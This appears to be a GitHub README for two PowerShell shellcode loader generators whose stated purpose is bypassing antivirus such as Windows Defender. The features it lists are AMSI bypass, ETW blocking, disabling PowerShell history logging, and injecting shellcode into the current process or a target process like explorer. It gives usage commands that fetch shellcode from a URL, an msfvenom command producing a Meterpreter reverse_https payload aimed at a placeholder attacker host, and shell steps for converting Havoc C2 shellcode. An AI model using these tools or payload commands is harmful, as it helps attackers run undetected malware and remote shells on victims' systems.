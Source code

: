 --------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into the current process's virtual address space.  

> Features
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1  
  --- or ---
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1
```

> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into a target process's virtual address space.  

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
```

> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  - Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the "PS1" format you need to run these commands:  
     ```$ xxd -p HavocShellCode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > HavocShellcode1```  
     ```$ sed '$ s/.$//' HavocShellcode1 > HavocShellcode2```  
     ```$ sed -i '1s/^/[Byte[]] $buf = /' HavocShellcode2```  

> License
  - GNU General Public License v3.0
